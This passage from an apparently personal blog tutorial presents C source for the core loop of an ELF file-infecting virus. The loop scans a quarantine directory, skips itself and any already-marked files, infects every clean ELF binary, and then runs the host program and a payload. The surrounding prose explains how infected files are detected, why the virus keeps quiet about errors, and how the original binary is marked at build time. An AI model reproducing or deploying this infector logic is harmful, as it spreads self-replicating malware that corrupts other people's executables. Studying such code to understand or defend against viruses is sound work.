 ```C { linenos=true, linenostart=1 }
	/* Initialize libelf. */
	elf_version(EV_CURRENT);

	myself_fd = open(argv[0], O_RDONLY);
	fstat(myself_fd, &myself_stat);
	dir = opendir(QUARANTINE_WARD);

	while ((entry = readdir(dir)) != NULL) {
		/* Exclude directories. */
		if (entry->d_type == DT_DIR) continue;
		/* Exclude myself. */
		if (myself_stat.st_ino == entry->d_ino) continue;

		elf_fd = open(entry->d_name, O_RDWR);
		elf = elf_begin(elf_fd, ELF_C_READ, NULL);

		/* Only include ELF files. */
		if (!(elf_kind(elf) == ELF_K_ELF)) continue;

		fstat(elf_fd, &elf_stat);

		if (!is_infected(elf_fd, elf_stat.st_size)) {
			infect(myself_fd, elf_fd, elf_stat.st_size);
		}

		close(elf_fd);
		elf_end(elf);
	}
	closedir(dir);

	/* Only run host code and payload if this is not the original virus. */
	if (myself_stat.st_size > VIRUS_SIZE + (int) DARK_MARK) {
		run_host(myself_fd, myself_stat.st_size, argv);
		payload();
	}

	close(myself_fd);
	return 0;
}
```

Now we're talking! There are a couple of things to note, though. First off, I have no idea what I'm doing with regards to `C`[^fn:8]! Again, the error handling is missing intentionally for brevity. But how should a _virus_ handle errors, anyway?
Probably be as quiet as possible about it.

Another difference is the way we detect infected files. The `Python` one-liner for finding our static `DARK_MARK` was super convenient. Doing a `C` version of this would be _quite a few_ one-liners. Instead we're simply appending the `DARK_MARK` manually to every binary that gets infected. This way we only have to check the last `sizeof(DARK_MARK)` bytes of every file to see if it's already infected. What's that? How do we mark the original virus binary? Well, that's a build step now! We'll have a look at it in a moment.


[^fn:1]: A small nod to the wonderful [DJ Smokey](https://soundcloud.com/smoke-gang-beatz/corona-doomsday-preppers-w-dj-smokey-soudiere-dj-kraft-dinna).
[^fn:2]: That's precisely why we need to keep track of the `VIRUS_SIZE`.
[^fn:3]: 🎩
[^fn:4]: Which conveniently lets us [specify](https://docs.python.org/3/library/os.html#os.execve) a file descriptor instead of a path for the file to be executed since `Python 3.3`.
[^fn:5]: It's _not_ the lack of error handling. That's missing intentionally so that things stay readable.
[^fn:6]: That doesn't mean there are no viruses in script form. Have a look at this [talk](https://www.youtube.com/watch?v=2Ra1CCG8Guo) by Ben Dechrai.
[^fn:7]: <https://www.youtube.com/watch?v=4jLT7GQYNhI&t=90s>
[^fn:8]: I'm not being overmodest, I really have no clue.
[^fn:9]: You can find it [here](https://sourceforge.net/projects/elftoolchain/).